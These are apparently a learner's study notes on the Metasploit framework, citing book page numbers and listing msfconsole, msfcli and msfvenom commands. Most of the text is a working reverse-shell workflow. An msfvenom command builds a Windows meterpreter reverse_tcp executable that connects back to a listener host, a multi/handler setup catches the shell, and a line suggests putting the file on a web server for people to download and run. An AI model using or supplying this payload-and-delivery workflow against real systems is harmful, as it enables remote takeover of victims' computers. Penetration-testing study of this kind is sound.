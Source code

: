 Ctrl+f `Advanced` for the actual exploits
This is the basics stuff like misconfigured, open ports; misconfigured web servers; and default password
These are the low hanging fruits

Misc. 
HTTP and HTTPS payloads can reconnect ### pg 232, 262 
Metasploit parameters - option, payload, target, exploit

### pg 22, 52
Android VMs setup
### pg 29, 59
Vulnerable windows xp 

Metasploit Suite

msfconsole - interactive CLI
info `module name`
show options
show payload

msfcli - one liners with metasploit
msfcli -h
msfcli `exploit name` 0 - this shows options
msfcli `exploit name` P - this shows payloads
msfcli `exploit name` RHOST=68.92.168.96 - set RHOST to 68.92.168.96
msfcli `exploit name` RHOST=68.92.168.96 E - E stand for exploit

msfvenom - generates payloads
msfvenom -h  - help
-l `payloads` - lists all payloads
-o `show options` - show options for that payload
-p `selected payload`  - select a payload
--help-formats  - show output formats
-f `selected format`  - select format
`OPTION=SET OPTION` - sets option to the set option
>  - redirect the output to a file

msfvenom -l payloads - shows all payloads
msfvenom -p windows/meterpreter/reverse_tcp -o - p is select payload and o is options
msfvenom --help-formats - shows output format
msfvenom -p `payload` 
msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.20.9 LPORT=12345 -f exe > example.exe

Upload this file into a web server and people download and run it. But how to you receive the shell binding or reverse connection
Using the multi/handler module on msfconsole
msfconsole 
use multi/handler
set PAYLOAD `payload name`
set LHOST 192.168.20.6
set LPORT 12345
exploit

